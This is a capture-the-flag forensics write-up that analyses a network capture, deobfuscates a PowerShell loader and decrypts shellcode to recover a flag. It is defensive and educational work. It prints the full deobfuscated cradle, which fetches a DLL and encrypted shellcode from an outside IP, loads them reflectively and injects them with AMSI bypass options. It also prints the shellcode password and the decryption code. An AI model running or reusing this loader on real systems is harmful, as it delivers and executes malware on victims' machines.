 > During a recent red team engagement one of our servers got compromised.
> Upon completion the red team should have deleted any malicious artifact or
> persistence mechanism used throughout the project. However, our engineers
> have found numerous of them left behind. It is therefore believed that there
> are more such mechanisms still active.
> Can you spot any, by investigating this network capture?

> Author: **[thewildspirit][author-profile]**

## Extracting stream objects

Right away, Wireshark can put together the data exchanged:

```shell
tshark -r sources/capture.pcap --export-objects http,payloads/
ls -lah payloads/
# 4466600  4 -rw-r--r-- 1 flatline flatline  2232 May  3 17:46 4A7xH.ps1
# 4466602  4 -rw-r--r-- 1 flatline flatline   336 May  3 17:47 9tVI0
# 4466601 88 -rw-r--r-- 1 flatline flatline 86528 May  3 17:46 user32.dll
```

They can be easily labeled:

```shell
file payloads/9tVI0 
#payloads/9tVI0: OpenPGP Public Key
file payloads/user32.dll
# payloads/user32.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

And `4A7xH.ps1` is a Powershell script.

## Deobfuscating the script

The Powershell script is a little obfuscated:

```shell
sV  ("{0}{1}" -f'Y','uE51') ([typE]("{5}{0}{2}{3}{1}{4}"-f 'STeM','EcTIOn.aS','.REF','L','SemblY','Sy'));  ${a} = ("{0}{1}{2}{3}{4}" -f 'cu','rr','en','tth','read')
```

Still it can be executed instruction by instruction to unveil its meaning:

```shell
sV ('YuE51')([type] 'SySTeM.REFLEcTIOn.aSSemblY')
${a} = 'currentthread'
${b} = '147.182.172.189'
${c} = 80
${d} = 'user32.dll'
${e} = '9tVI0'
${f} = 'z64&Rx27Z$B%73up'
${g} = 'C:\Windows\System32\svchost.exe'
${h} = 'notepad'
${i} = 'explorer'
${j} = 'msvcp_win.dll'
${k} = 'True'
${l} = 'True'

${methods} = @('remotethread', 'remotethreaddll', 'remotethreadview', 'remotethreadsuspended')
if (${methods}.Contains.Invoke(${a})) {
    ${h} = (&'Start-Process' -WindowStyle 'Hidden' -PassThru ${h}).'Id'
}

${methods} = @('remotethreadapc', 'remotethreadcontext', 'processhollow')
if (${methods}.Contains.Invoke(${a})) {
    try {
        ${i} = (&'Get-Process' ${i} -ErrorAction 'Stop').'Id'
    }
    catch {
        ${i} = 0
    }
}

${cmd} = 'currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:8668 /ppid:explorer /dll:msvcp_win.dll /blockDlls:True /am51:True'

${data} = (.'Invoke-WebRequest' -UseBasicParsing 'http://147.182.172.189:80/user32.dll').'Content'
${assem} =  ( ls 'vaRIaBLe:yUE51'  ).'Value'::'Load'.Invoke(${data})

${flags} = [Reflection.BindingFlags] ('NonPublic,Static')

${class} = ${assem}.('GetType').Invoke(('DInjector.Detonator'), ${flags})
${entry} = ${class}.('GetMethod').Invoke(('Boom'), ${flags})

${entry}.'Invoke'(${null}, (, ${cmd}.('Split').Invoke(" ")))
```

It is almost exactly the [cradle.ps1][cradle-script] from [snovvcrash][snovvcrash].

## DInjector

The script uses [DInjector][dinjector]:

- with an encrypted shellcode:
    - stored in `9tVI0`
    - and its password is `z64&Rx27Z$B%73up`
- the DInjector library is renamed `user32.dll`
- it spawns a new `svchost.exe` thread:
    - and loads `msvcp_win.dll` to host the shell code
    - to finally call the `boom` function

So the flag is certainly is the encrypted shellcode.

## Decrypting the shellcode

The repository of DInjector details the steps and provides an encryption script, [encrypt.py][encryption-script].

The shellcode is most like encrypted with the AES routine. It requires a password
and an IV of 16 random bytes:

```python
if args.algorithm == 'aes':
    iv = os.urandom(16)
    ctx = AES(args.password, iv)
```

The IV is actually placed at the start of the output:

```python
return self.iv + encryptor.update(raw) + encryptor.finalize()
```

And it can be seen with:

```shell
xxd -p -c 16 payloads/9tVI0 | head -n1
# 9907bb679e1765dcbdb467c1c4b00d21
````

Just in case, I tried with both decryption schemes:

```python
def xor(m: bytes, k: bytes) -> bytes:
    return bytes([m[__i] ^ k[__i % len(k)] for __i in range(len(m))])

__cipher = Cipher(algorithms.AES(KEY), modes.CBC(IV), backend=default_backend())
__decryptor = __cipher.decryptor()

__shellcode_aes = __decryptor.update(RAW[16:]) + __decryptor.finalize()
__shellcode_xor = xor(m=RAW, k=PASSWORD)
```

## Running the shellcode

The flag is not directly apparent in the shellcode. Let's try and run this
code in [BlobRunner][blobrunner].

In the command prompt:

```shell
.\blobrunner.exe .\shellcode.aes.bin
```
After attaching [x32dbg][x32dbg], the "memory map" tab helps us navigate to the
shellcode at `0xDE0000`.

Running step by step, the process reaches a XOR loop, which generates the following output:

![][flag]

> `HTB{00000ps_1_t0t4lly_f0rg0t_1t}`

[author-profile]: https://app.hackthebox.com/users/70891
[blobrunner]: https://github.com/OALabs/BlobRunner
[cradle-script]: https://github.com/snovvcrash/DInjector/blob/main/cradle.ps1
[dinjector]: https://github.com/snovvcrash/DInjector
[flag]: images/screenshot-flag.png
[encryption-script]: https://github.com/snovvcrash/DInjector/blob/main/encrypt.py
[snovvcrash]: https://github.com/snovvcrash
[x32dbg]: https://x64dbg.com/
